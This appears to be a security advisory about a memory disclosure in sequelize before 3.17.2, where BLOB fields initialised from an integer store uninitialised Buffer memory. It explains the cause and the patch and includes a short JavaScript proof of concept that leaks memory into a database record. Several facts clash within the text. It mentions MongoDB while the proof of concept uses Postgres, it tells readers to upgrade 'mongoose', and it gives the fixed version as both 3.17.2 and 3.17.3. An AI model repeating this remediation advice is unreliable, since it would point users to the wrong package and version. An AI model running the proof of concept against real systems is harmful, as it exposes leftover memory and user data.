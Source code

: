 ## Overview
A potential memory disclosure vulnerability exists in sequelize versions prior to 3.17.2.
A field of type `DataTypes.BLOB` can be used to expose sensitive information such as code, runtime memory and user data into MongoDB.

### Details
`sequelize` uses the `Buffer` type to represent `DataTypes.BLOB`. 
Initializing a `Buffer` with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```
Initializing a `BLOB` field in such manner will dump uninitialized
memory into the database.
The patch wraps `Buffer` field initialization in sequelize by converting a
`number` value `N` to a string, initializing the `Buffer` with `N` in its
ascii form.

#### Proof of concept
```javascript
var Sequelize = require('sequelize');
var sequelize = new Sequelize('pastebin', null, null,
    { host: '127.0.0.1', dialect: 'postgres', });

var Task = sequelize.define('Pastebin', {
    title: Sequelize.STRING,
    content: Sequelize.BLOB,
  });

Task.create({
  title: 'title',
  content: 100,
}).then(function (task) {
  console.log(task.title);
  console.log(task.content); // will print out 100 bytes of previously used memory
});
```

## Remediation
Upgrade `mongoose` to version >= 3.17.3

## References
- https://github.com/sequelize/sequelize/blob/master/changelog.md#3172
- https://github.com/sequelize/sequelize/commit/cbfaa4f0a135cfc55874c9bfc39ead2d85c417e9
- https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials
- https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md
